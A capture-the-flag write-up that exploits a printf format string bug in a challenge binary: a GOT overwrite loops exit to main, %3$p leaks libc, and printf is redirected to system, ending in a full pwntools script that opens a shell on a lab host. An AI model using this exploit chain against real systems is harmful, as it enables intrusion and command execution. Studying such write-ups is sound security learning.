


## Description

	Formats are important and much more if you can specify them hehe. My software skills are elite! You will not be able to find a security issue in it.
##### Security mitigations:

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x3fe000)
Stripped:   No
```
##### After opening the binary in Ghidra we only have a main function.

```C
void main(void)

{
  long in_FS_OFFSET;
  char buf [520];
  undefined8 canary;
  
  canary = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  puts("Please provide your username:");
  read(0,buf,0x200);
  printf("Thanks ");
  printf(buf);
  call_exit(0x539);
  return;
}
```

##### This code contains an obvious format string vulnerability in the first printf() call. There is no win function so our exploit plan will be:

	- Overwrite the GOT entry of exit() to point to main() so we get unlimited calls to printf()
	- Leak LIBC
	- Overwrite GOT entry of printf() with LIBC address of system()
	- Enter the string /bin/sh

##### Since the binary has no PIE we can easily do our first step with pwntools.

##### First we need to find the offset that we write to with the format string. We can do this by writing a few recognizable characters at the beginning of our buffer and then using the format string to print out the stack.


##### Now that we know the offset we can write the first part of our exploit script.

```python
from pwn import *

context.binary = binary = ELF('./notspecified2_patched',checksec=False)
libc = ELF('./libc.so.6',checksec=False)

payload = fmtstr_payload(6, {binary.got.exit:binary.symbols.main})

p = process()

p.sendline(payload)
```

##### Next we use the format string bug to leak LIBC. Looking back at the output from when we found our format string offset we can see a LIBC address in position 3. We can use ```%3$p``` to get this address and subtract the base LIBC address to find our offset. Once we have the LIBC address we can do our last overwrite of the printf() GOT entry with the LIBC address of system.

```python
p.sendline(b'%3$p')

libc_offset = 0x114a37
p.recvuntil(b'Thanks ')
libc_leak = int(p.recvline()[:-1].decode(), 16)
libc.address = libc_leak - libc_offset

info(f'libc base: {hex(libc.address)}')

payload2 = fmtstr_payload(6, {binary.got.printf:libc.symbols.system})
p.sendline(payload2)
```
##### Now anything the program passes to printf() will be passed to system(). This means sending the string '/bin/sh' will give us a shell on the target.



#### Full Exploit

```python
from pwn import *

context.binary = binary = ELF('./notspecified2_patched',checksec=False)
libc = ELF('./libc.so.6',checksec=False)

payload = fmtstr_payload(6, {binary.got.exit:binary.symbols.main})

#p = process()
p = remote('10.10.88.98', 5000)

p.sendline(payload)
p.recvrepeat(1)

p.sendline(b'%3$p')

libc_offset = 0x114a37
p.recvuntil(b'Thanks ')
libc_leak = int(p.recvline()[:-1].decode(), 16)
libc.address = libc_leak - libc_offset

info(f'libc base: {hex(libc.address)}')

payload2 = fmtstr_payload(6, {binary.got.printf:libc.symbols.system})
p.sendline(payload2)
p.sendline(b'/bin/sh')

p.recvrepeat(1)
p.interactive()
```
